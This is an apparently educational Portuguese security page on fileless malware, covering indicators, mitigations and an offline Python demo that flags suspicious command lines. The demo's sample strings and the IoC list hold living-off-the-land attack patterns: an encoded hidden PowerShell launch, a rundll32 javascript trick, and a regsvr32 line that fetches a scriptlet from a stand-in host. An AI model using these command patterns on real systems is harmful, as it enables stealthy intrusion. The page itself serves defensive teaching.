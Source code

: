 ```html
</body></html>
```

---

## 4) 🧪 Fileless Malware

### O que é
Ataques que não gravam arquivos no disco: operam apenas na memória, abusando de ferramentas legítimas (living off the land) como PowerShell, WMI, rundll32, etc.

### Como funciona
- Script embutido/baixado na memória executa via ferramentas já presentes.
- Persistência por tarefas/agendadores/registro, sem binário novo evidente.
- Evasão: menos artefatos no disco, dificulta antivírus baseados em assinatura.

### IoCs
- Linha de comando suspeita: powershell -enc [BASE64...], wscript //e:jscript, rundll32 javascript:....
- Processos filhos atípicos (Office → PowerShell), AMSI desabilitado.
- Criação de tarefas logo após execução de script.

### Mitigação & Resposta
- EDR/XDR com foco em comportamento (criação de processos, cmdline).
- Bloqueio de macros por padrão; AMSI ativo; Constrained Language Mode.
- Privilégios mínimos, AppLocker/WDAC, PowerShell Logging e Script Block Logging.
- Resposta: isolar host, coletar eventos/detonadores, remover persistências e revisar credenciais.

### Demos 100% seguras (Sem executar nada perigoso)

**A) Detector didático de cmdlines suspeitas (offline)**  
Salve como `fileless_detector_demo.py`:
```python
# DEMO segura: marca exemplos de linhas de comando "sinais" de fileless (não executa nada)
samples = [
  r'powershell -w hidden -enc [BASE64_PAYLOAD]',
  r'wscript.exe //e:jscript script.js',
  r'rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();',
  r'regsvr32 /s /n /u /i:https://exemplo.test scrobj.dll',
  r'wmic process call create "powershell -nop -c [PAYLOAD]"',
  r'office.exe spawn -> powershell.exe -nop -w hidden'
]
rules = ['powershell','-enc','wscript','rundll32','regsvr32','wmic','office','powershell.exe']

print("Sinais (conceituais) em linhas de comando:\n")
for s in samples:
  hits = [r for r in rules if r.lower() in s.lower()]
  flag = "SUSPEITO" if hits else "OK"
  print(f"[{flag}] {s}\n   ↳ regras: {hits}")
print("\nObs.: Em EDR real, combine processo pai/filho, cmdline completa e horário.")
```

**B) “Duas visões” (scripts em memória vs. em disco) – discussão guiada**  
Mostre que um script pode existir só na memória (ex.: copiado/colado no console) — não faça execução de payload real.  
Discuta como logging do PowerShell/AMSI e EDR ajudam a ver o conteúdo mesmo sem arquivo no disco.
